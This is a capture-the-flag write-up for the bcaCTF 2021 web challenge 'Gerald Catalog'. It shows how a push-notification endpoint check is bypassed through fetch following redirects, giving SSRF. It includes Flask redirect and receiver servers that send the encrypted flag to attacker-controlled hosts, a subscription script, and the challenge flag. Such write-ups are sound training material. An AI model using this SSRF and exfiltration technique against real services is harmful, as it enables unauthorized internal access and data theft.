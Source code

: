 ```yaml
---
layout: post
title: bcaCTF 2021 - Gerald Catalog
---
```

b1c and Rogue Waves merged for a big 1st place (W over both redpwn teams!!) in bcaCTF 2021.

Though the pwn curve was pretty sad, I also solved a web challenge, Gerald Catalog.

## Gerald Catalog
Least solved challenge in the whole CTF!

The website we are given lets us view and create "Geralds". Gerald is just an image (of a stegosaurus). Each Gerald has a title and a caption. There is a Gerald with the flag, and only the admin can see it. Our goal is to get the contents of the flag Gerald.

We are also allowed to opt into push notifications. When a Gerald is viewed, we can opt into getting push notifications for view events. Viewing a corresponding Gerald will cause a push notification to be sent to one's browser, and a popup will be shown.

### source code
#### server.ts:
| Route                           | Purpose                                                                  |
|---------------------------------|--------------------------------------------------------------------------|
| GET /                           | index page                                                               |
| GET /login                      | login page                                                               |
| POST /login                     | login api                                                                |
| GET /register                   | register page                                                            |
| POST /register                  | register api                                                             |
| GET /logout                     | logout of account                                                        |
| GET /geralds                    | view one's geralds + the flag gerald                                     |
| GET /gerald/:id                 | view a specific Gerald, this also triggers push notifications to be sent |
| GET /gerald.png                 | render a Gerald image with specific caption                              |
| GET /add                        | create a Gerald page                                                     |
| POST /add                       | create a Gerald api                                                      |
| PUT /gerald/:id/subscription    | subscribe to push notifications for a specific Gerald                    |
| DELETE /gerald/:id/subscription | unsubscribe to push notifications for a specific Gerald                  |

#### notify.ts
`validateSubscription()`:
Ensures that a subscription's fields:
- have string `endpoint`
- have string `keys.auth`
- have string `keys.p256dn`
- `endpoint`:
    - no port specification (thus on either port 80 or 443)
    - hostname is not `localhost` or a Docker localhost network
    - hostname does not have `bcactf.com` in it
    - hostname does not have `192.168.` in it
    - hostname does not start with `127.`
    - protocol must be `http` or `https`

`sendNotifications()`:
Sends an encrypted `web-push` push notification that contains the id, name, and caption using `fetch` to our endpoint.

### ssrf
When we opt in for push notifications with a PUT to /gerald/:id/subscription, we can specify the endpoint for where the notification should go to. The validation in `validateSubscription` makes it seem like it was meant to prevent SSRF, so obviously we should try to find another way of achieving SSRF.

In `sendNotifications()`, `fetch` will follow all redirects that our endpoint returns. So, we can make our endpoint redirect to `localhost/path`, and `fetch` will go to that endpoint instead, giving us SSRF.

### getting the encrypted flag
Using our SSRF from before, we can get push notification containing the encrypted contents of the flag.

We will need two servers, one to redirect `fetch` for SSRF and one to receive the encrypted flag. Technically it might be possible to have one server with one application running on port 80 and another on port 443, but I just used my two existing EC2 instances.

For reference, the id of my flag Gerald was `a5721434-b800-4c97-b3cd-8f05ba6911ab`. The id of the dummy Gerald was `510afe9e-ae77-45e9-922a-fccf9914516b`.

On server A, this is the Flask code:
```python
from flask import Flask, redirect

app = Flask(__name__)

@app.errorhandler(404)
def hello(a):
        return redirect("http://127.0.0.1:1337/gerald/a5721434-b800-4c97-b3cd-8f05ba6911ab", code=302)


app.run(host='0.0.0.0', port=80)
```

The 404 error handler just makes it so that every route requested from server A will be redirected to the `localhost` url.


On server B, this is the Flask code:
```python
from flask import Flask, redirect, request
import base64

app = Flask(__name__)

@app.errorhandler(404)
def hello(a):
        print(request.headers)
        print("rcvd: ", base64.b64encode(request.data))
        return 'lol'


app.run(host='0.0.0.0', port=80)
```

This code returns the base64 encoding of any data received.

Remember that the flag will be encrypted when we receive it. Generally, browsers will do the decryption for us but I couldn't figure out how to plug encrypted output into the browser.

Instead to decrypt it, I just generated a keypair with [this site](https://tools.reactpwa.com/vapid).

The public key from that site is `p256dh`, and I just took the `auth` value from a sample request from the Network tab in developer tools. The private key from the site will be used to decrypt the encrypted flag later on.

To set up push notifications:
```python
import requests

s = requests.Session()

a = s.post("https://web.bcactf.com:49163/login", data={"username":[REDACTED], "password":[REDACTED]}, verify=False)

b = s.get("https://web.bcactf.com:49163/geralds", verify=False)

p = s.put("https://web.bcactf.com:49163/gerald/510afe9e-ae77-45e9-922a-fccf9914516b/subscription",
        headers={
            "Host": "web.bcactf.com:49163"
            },
        json={
            "endpoint":[SERVER A],
            "expirationTime":None,
            "keys": {
                "p256dh":[PUBLIC KEY],
                "auth":[AUTH FROM SAMPLE REQUEST]
            }
        }, verify=False)


p = s.put("https://web.bcactf.com:49163/gerald/a5721434-b800-4c97-b3cd-8f05ba6911ab/subscription",
        headers={
            "Host": "web.bcactf.com:49163"
            },
        json={
            "endpoint":[SERVER B],
            "expirationTime":None,
            "keys": {
                "p256dh":[PUBLIC KEY],
                "auth":[AUTH FROM SAMPLE REQUEST]
            }
        }, verify=False)

print(p.ok)
print(p.text)
```

This sets up two push notification events. One will trigger when we view `510afe9e-ae77-45e9-922a-fccf9914516b`, and will trigger the SSRF by a redirect from server A.

This causes the server to "view" `a5721434-b800-4c97-b3cd-8f05ba6911ab` when `fetch` follows the redirect. Viewing `a5721434-b800-4c97-b3cd-8f05ba6911ab` will cause another push notification containing the encrypted flag to be sent to our server B, which prints out the base64 encoding of it.

### decrypting the Flag
To decrypt the flag, I used [https://github.com/web-push-libs/ecec](https://github.com/web-push-libs/ecec). There is a convenient decryption utility that is included in the build instructions.

To use it, we'll need our auth secret (the `auth` field of our request), the private key that we generated, and the URL-safe base64 version of the data received by our server.

Make sure that both the auth secret, the private key, and the message are in URL-safe base64 encoding, not just base64, or else the decryption will fail. I used [this tool](https://www.base64url.com/) to convert.

Flag: `bcactf{thanks_f0r_contributing_t0_th3_g3rard_lore_ssrf478fhgh}`